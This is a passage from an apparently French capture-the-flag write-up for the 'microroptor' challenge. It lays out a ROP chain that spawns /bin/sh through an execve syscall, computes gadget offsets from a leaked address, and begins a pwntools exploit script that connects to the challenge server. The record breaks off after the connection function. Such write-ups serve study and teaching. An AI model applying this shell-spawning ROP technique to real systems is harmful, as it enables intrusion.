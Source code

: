 

### Exploitation


L'idée sera donc de passer par un ROP pour faire un syscall execve.
La doc technique pour le x86_64 : https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

sys_execve :
- rax = 59 (0x3b)
- rdi = adresse de la commande
- rsi = 0x00
- rdx = 0x00


Pour trouver les gadget dans le code, on peut utiliser ROPgadget, qui nous fournit tout ce qu'il faut.

```bash
pop rdi ; ret     <= mettre l adresse leakée dans rdi
m3t4ll1cA leak
pop rax ; ret     <= mettre /bin/sh dans rax
/bin//sh
mov qword ptr [rdi], rax ; ret    <= ecrire /bin/sh à l'emplacement du leak (zone Writable)

pop rax ; ret     <= mettre 0x3b dans rax
0x3b
pop rdi ; ret     <= mettre l'adresse de /bin/sh dans rdi
adresse m3t4ll1cA
pop rsi ; pop r15 ; ret <= mettre rsi à 0x00
0x00
0x00
syscall
```


Ensuite, le programme nous leak une adresse et nous avons dans le code sont adresse avant chargement en mémoire, nous pourrons donc calculer le décalage de nos gadgets une fois le programme lancé :

`décalage = adresse_leakée - adresse_en_statique`


Tout ceci bout à bout nous donne le code suivant :

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./microroptor")

context.binary = exe.path

if args.REMOTE:
    NL = b"\r\n"
else:
    NL = b"\n"


def conn():
    if args.REMOTE:
        r = remote("challenges.france-cybersecurity-challenge.fr", 2052)
    else:
        r = process([exe.path])

    return r


```